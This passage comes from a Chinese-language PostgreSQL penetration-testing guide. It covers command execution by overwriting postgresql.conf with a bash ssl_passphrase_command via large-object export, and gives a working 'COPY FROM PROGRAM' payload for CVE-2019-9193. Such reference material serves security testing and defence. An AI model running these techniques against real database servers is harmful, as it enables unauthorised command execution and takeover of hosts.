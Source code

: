 在原始配置文件内容末尾追加上ssl配置

```
ssl = on
ssl_cert_file = '/etc/ssl/certs/ssl-cert-snakeoil.pem'
ssl_key_file = '/var/lib/postgresql/data/PG_VERSION'
ssl_passphrase_command_supports_reload = on
ssl_passphrase_command = 'bash -c "touch /tmp/success & echo 12345678; exit 0"'
```

转为 base64 格式
```bash
# 这里我将配置文件的内容存到了 out.txt 中
cat out.txt | base64 -w 0 > base3.txt
```

```sql
-- 将修改后的配置文件加载到largeobject中
select lo_from_bytea(10001,decode('base64的内容,这里略','base64'));

-- 通过lo_export覆盖配置文件
select lo_export(10001,'/var/lib/postgresql/data/postgresql.conf');
SELECT lo_unlink(10001);

-- 重新加载配置文件
select pg_reload_conf();
```

![](../../img/postgresql-pentest/50.png)

可以看到,重新加载配置文件后,ssl_passphrase_command 中的命令已经执行

![](../../img/postgresql-pentest/48.png)

## CVE-2018-1058 PostgreSQL 提权漏洞

PostgreSQL 其 9.3 到 10 版本中存在一个逻辑错误，导致超级用户在不知情的情况下触发普通用户创建的恶意代码，导致执行一些不可预期的操作。

详细复现可以参考 vulhub 靶场中的 writeup
- https://vulhub.org/#/environments/postgres/CVE-2018-1058/

## CVE-2019-9193 PostgreSQL 高权限命令执行漏洞

**描述**

PostgreSQL 其 9.3 到 11 版本中存在一处“特性”，管理员或具有“COPY TO/FROM PROGRAM”权限的用户，可以使用这个特性执行任意命令。

**利用条件**
- 版本9.3-11.2
- 超级用户或者pg_read_server_files组中的任何用户

**相关文章**
- [Authenticated Arbitrary Command Execution on PostgreSQL 9.3 > Latest](https://medium.com/greenwolf-security/authenticated-arbitrary-command-execution-on-postgresql-9-3-latest-cd18945914d5)

**POC | Payload | exp**
```sql
DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
```
